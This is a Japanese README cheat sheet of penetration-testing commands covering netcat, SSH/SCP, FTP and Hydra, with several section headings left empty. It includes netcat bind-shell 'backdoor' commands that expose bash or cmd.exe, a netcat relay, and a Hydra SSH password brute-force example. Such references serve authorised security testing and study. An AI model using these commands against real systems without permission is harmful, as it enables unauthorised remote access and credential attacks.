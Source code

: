 # high-frequency-tips(spxntips)
頻繁に使うコマンドのCheatSheet
(short link → bit.ly/spxntips)

## Netcat
オプション：
```
-l：リッスン
-n：名前解決を行わない
-k：コネクション確立後も接続をリッスンする
-v：接続状態などの出力を行う
-vv：接続状態などのより詳細な出力を行う
```
実行例(ポート1234でリッスン)：
```console
$ncat -nlv 1234
```
実行例(Backdoor Shell)
```console
$nc -l -p [port] -e /bin/bash
```
OR
```console
C:\>nc [port] -e cmd.exe
```
実行例(Ntcat Relays(Listener-to-Listner))
```console
$cd /tmp
$mknod backpipe p
$nc -l -p [port] 0<backpipe | nc -l -p [port] | tee backpipe
```
## SSH
オプション：
```
-p：ポート指定
-v：デバッグの出力
-vv：デバッグのより詳細な出力
-vvv："-vv"より更に詳細な出力
```
実行例(ターゲットのユーザに対してSSHで接続)
```console
$ssh user@[target(ip/hostname)]
```
### SCP(Secure Copy Protocol:SSH)
オプション：
```
-P：ポート指定
-v：デバッグの出力
-p：ファイルに付与されたタイムスタンプなどの情報を保持する
-r：再帰的(ディレクトリごと等)
*.txt：ワイルドカード
/home/user/{file1,file2,file3}：ファイルの複数選択 
```
実行例(リモートホストからローカルにコピーする)：
```console
$scp user@[target(ip/hostname)]:[remote_filepath] [local_filepath]
```
実行例(ローカルからリモートホストにコピーする)
```console
$scp [local_filepath] user@[target(ip/hostname)]:[remote_filepath]
```
## FTP
オプション：
```
-s:filename ：接続時にスクリプトを実行する
```
実行例(ターゲットに接続)：
```console
$ftp [target(ip/hostname)]
```
実行例(アップロード(FTP))：
```console
ftp>put [local_filepath]
```
実行例(ダウンロード(FTP))：
```console
ftp>get [remote_filepath]
```
## Hydra
オプション：
```
[service]：ssh, rdp, ftp, 
-C [file]：<login:pass>形式のUSERPASSリストを指定
-P [file]：PASSリストを指定
-U [file]：USERリストを指定
-s PORT：サービスが起動しているポート
-t：同時実行タスク数()
-v：詳細な出力
services: サービスの指定/対応サービス(asterisk afp cisco cisco-enable cvs firebird ftp ftps http[s]-{head|get} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql ncp nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres rdp rexec rlogin rsh s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp)
```
実行例(sshパスクラ)：
```console
$hydra -C [USERPASS_FILE] [target(ip/hostname)] ssh
```
## John the Ripper
## HashCat
## Metasploit Framework
 ### Meterpreter
 ### msfvenom
 ### Pivot
## Network
 ### Routing
 ### ICMP
 ### ARP
## Google Dork
## Linux General Command
## Windows General Command

